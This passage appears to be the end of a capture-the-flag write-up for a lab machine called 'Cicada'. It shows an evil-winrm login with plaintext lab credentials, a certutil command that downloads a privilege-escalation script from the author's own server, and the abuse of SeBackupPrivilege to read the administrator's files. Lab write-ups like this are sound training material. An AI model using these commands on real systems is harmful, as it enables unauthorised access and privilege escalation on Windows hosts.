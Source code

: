 ***

Up until this point I got by without any help. Then I got stuck and looked up other people's approaches.

I got remote interactive shell access with `evil-winrm` to emily's user account.

```
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

I found out that emily.oscars has a permission `SeBackupPrivilege` which can be used to gain read access on any file on the system.

here's a script that allows just that: https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1

Then I got this script uploaded to emily's workstation, which was hosted on my machine using python HTTP server.

```
certutil -urlcache -f http://10.10.14.167/privesc.ps1 privesc.ps1
```

Last step is to activate the script and read administrator folder.

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> . ./privesc.ps1

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> Acl-FullControl -user cicada\emily.oscars -path C:\users\administrator\desktop

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
```

**user.txt - Acquired**&#x20;

**root.txt - Acquired**

Cicada machine has been pwned.
